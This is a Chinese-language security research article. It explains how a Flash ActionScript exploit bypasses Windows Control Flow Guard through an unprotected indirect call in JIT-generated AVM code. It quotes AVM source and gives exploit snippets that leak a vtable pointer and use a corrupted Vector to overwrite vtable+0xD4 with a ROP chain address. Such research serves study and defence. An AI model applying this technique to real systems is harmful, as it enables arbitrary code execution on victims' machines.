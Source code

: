 位于堆中的由JIT生成的代码，是通过如下路径执行到的：首先BaseExecMgr::invokeGeneric方法(core/exec.pp中定义)调用BaseExecMgr::endCoerce:

```
// Invoker for native or jit code used before we have jit-compiled,
// or after JIT compilation of the invoker has failed.
Atom BaseExecMgr::invokeGeneric(MethodEnv *env, int32_t argc, Atom* atomv)
{
    MethodSignaturep ms = env->get_ms();
    const size_t extra_sz = startCoerce(env, argc, ms);
    MMgc::GC::AllocaAutoPtr _ap;
    uint32_t *ap = (uint32_t *)avmStackAlloc(env->core(), _ap, extra_sz);
    unboxCoerceArgs(env, argc, atomv, ap, ms);
    return endCoerce(env, argc, ap, ms);
}

```

然后BaseExecMgr::endCoerce调用JIT生成的函数（该函数我们在上上段中讲述过，其中包含未受CFG保护的间接调用）：

```
Atom BaseExecMgr::endCoerce(MethodEnv* env, int32_t argc, uint32_t *ap, MethodSignaturep ms)
{
[...]
switch(bt){
[...]
default:
{
    STACKADJUST(); // align stack for 32-bit Windows and MSVC compiler
    const Atom i = (*env->method->_implGPR)(env, argc, ap);
[...]

```

如下是BaseExecMgr::endCoerce的二进制代码：

![](http://drops.javaweb.org/uploads/images/c982cae00688e2b0e81ae7069523042a84541dc1.jpg)

0x04 利用
=======

* * *

我们已经了解了如何触发一个未受CFG保护的间接调用，现在我们需要做的是在VTable_object + 0xD4位置放一个虚假的MethodEnv对象。有图有真相，我们可以在下图中直观地看到对象之间的初始状态以及调用关系（点击图片可放大）：

![](http://drops.javaweb.org/uploads/images/b04b5c806e45186b636608edf1708459d75706dc.jpg)

在ActionScript利用代码中，我们通过Nicolas Joly的基于Number对象的读取方法可以获取到ByteArray object + 8位置的指针，如上一篇博文中提到的：

```
var vtable_object:uint = leak_8_bytes(bytearray_object_pointer + 8);

```

然后指针值 + 0xD4得到我们想覆盖的目标地址，之后再计算出Vector对象（其长度我们已经覆盖为0xffffffff）中我们需要使用的定位，以写入目标地址：

```
var target_address:uint = vtable_object + 0xd4;
/* 0x28: offset of the first element within the Vector object */
var idx: uint = (target_address - (address_of_vector + 0x28)) / 4;
this.the_vector[idx] = address_of_rop_chain >> 3;

```
